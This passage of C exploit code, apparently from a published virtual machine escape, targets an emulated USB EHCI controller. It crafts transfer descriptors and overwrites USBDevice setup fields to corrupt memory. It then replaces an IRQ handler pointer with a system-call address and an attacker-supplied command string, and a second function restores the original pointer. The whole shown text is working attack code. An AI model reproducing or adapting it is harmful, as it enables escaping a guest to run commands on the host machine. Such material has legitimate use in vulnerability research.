 ```c

	//override_setup_index
	usb_set_state_data();//s->setup_state = SETUP_STATE_DATA
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	reset_hci();
	memset(data_buf,0,DATA_BUF_SIZE);
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//devil irq
	*pirq_addr = irq_addr;//get_usbdevice_data_buf_addr()+256;
	*phandler = system_call_addr;//system_call_addr;
	*popaque = opaque_addr;//get_usbdevice_data_buf_addr() + 256 + 64;
	strcpy((char*)cmd,pcmd);
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = irq_offset+8+8;//make USBDevice Struct setup_len > setup_index!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = irq_offset - (SETUP_INDEX_OFFSET + 4);
	run_hci();
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,8,QTD_TOKEN_TBYTES);
	
	run_hci();//

}

static void recover_irq_addr(void)
{
	uint64_t *pirq_addr = (uint64_t*)data_buf;
	
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	reset_hci();
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//devil irq
	*pirq_addr = original_irq_addr;//get_usbdevice_data_buf_addr()+256;
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = irq_offset+8+8;//make USBDevice Struct setup_len > setup_index!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = irq_offset - (SETUP_INDEX_OFFSET + 4);
	run_hci();
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
```